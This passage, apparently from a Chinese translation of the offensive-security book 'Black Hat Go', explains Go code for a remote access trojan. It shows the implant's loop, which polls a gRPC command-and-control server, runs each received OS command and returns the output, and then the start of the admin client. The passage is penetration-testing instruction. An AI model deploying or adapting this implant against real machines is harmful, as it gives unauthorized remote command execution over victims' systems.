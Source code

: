 ```
            log.Fatal(err)
        }
        if cmd.In == "" {
            // No work
            time.Sleep(3*time.Second)
            continue
        }

        tokens := strings.Split(cmd.In, " ") ❻
        var c *exec.Cmd
        if len(tokens) == 1 {
            c = exec.Command(tokens[0])
        } else {
            c = exec.Command(tokens[0], tokens[1:]...)
        }
        buf, err := c.CombinedOutput()❼
        if err != nil {
            cmd.Out = err.Error()
        }
        cmd.Out += string(buf)
        client.SendOutput(ctx, cmd) ❽
    }
}
```

*Listing 14-4: 创建 implant (*[/ch-14/implant/implant.go](https://github.com/blackhat-go/bhg/blob/master/ch-14/implant/implant.go)*)*

implant 代码仅包含一个 `main()` 函数。我们首先声明变量，包括一个 `grpcapi.ImplantClient` 类型 ❶。`protoc` 命令为我们自动创建了这个类型。这个类型包含了所有必需的 RPC 函数存根，方便远程通信。

然后我们通过 `grpc.Dial(`target string`,` opts... DialOption`)` 建立连接，连接到运行在 4444 端口的植入物服务器 ❷。我们将使用这个连接来调用 `grpcapi.NewImplantClient(conn)` ❸（这是 `protoc` 为我们创建的一个函数）。现在我们拥有了 gRPC 客户端，它应该已经与我们的植入物服务器建立了连接。

我们的代码继续使用一个无限的 `for` 循环 ❹ 来轮询植入物服务器，反复检查是否有需要执行的工作。它通过调用 `client.FetchCommand(ctx, req)`，传入请求上下文和 `Empty` 结构 ❺ 来完成这一操作。在幕后，它正在连接我们的 API 服务器。如果收到的响应中 `cmd.In` 字段为空，我们会暂停 3 秒钟，然后再试一次。当接收到工作单元时，植入物通过调用 `strings.Split(cmd.In, " ")` ❻ 将命令分割成单独的词和参数。这是必要的，因为 Go 执行操作系统命令的语法是 `exec.Command(`name`,` args`...)`，其中 name 是要执行的命令，`args`... 是该操作系统命令使用的任何子命令、标志和参数。Go 这样做是为了防止操作系统命令注入，但这也使得我们的执行变得复杂，因为我们必须在执行之前将命令分割成相关的部分。我们运行命令并通过 `c.CombinedOutput()` ❼ 收集输出。最后，我们将该输出并发起一个 gRPC 调用 `client.SendOutput(ctx, cmd)`，将我们的命令及其输出发送回服务器 ❽。

你的植入物已经完成，可以通过 `go run implant/implant.go` 来运行。它应该连接到你的服务器。再次强调，它不会有高潮，因为没有需要执行的工作。只是几个正在运行的进程，建立连接但没有做任何有意义的事情。让我们来解决这个问题。

### 构建管理组件

管理组件是我们 RAT 的最后一部分。它是我们实际进行工作的地方。工作将通过我们的管理员 gRPC API 发送到服务器，服务器再将其转发给植入物。服务器从植入物获取输出，并将其发送回管理员客户端。清单 14-5 显示了 *client/client.go* 中的代码。

```
func main() {
    var
    (
        opts   []grpc.DialOption
        conn   *grpc.ClientConn
        err    error
        client grpcapi.AdminClient ❶
    )

    opts = append(opts, grpc.WithInsecure())
    if conn, err = grpc.Dial(fmt.Sprintf("localhost:%d", 9090), opts...); err != nil { ❷
        log.Fatal(err)
    }
    defer conn.Close()
    client = grpcapi.NewAdminClient(conn) ❸
 var cmd = new(grpcapi.Command)
```
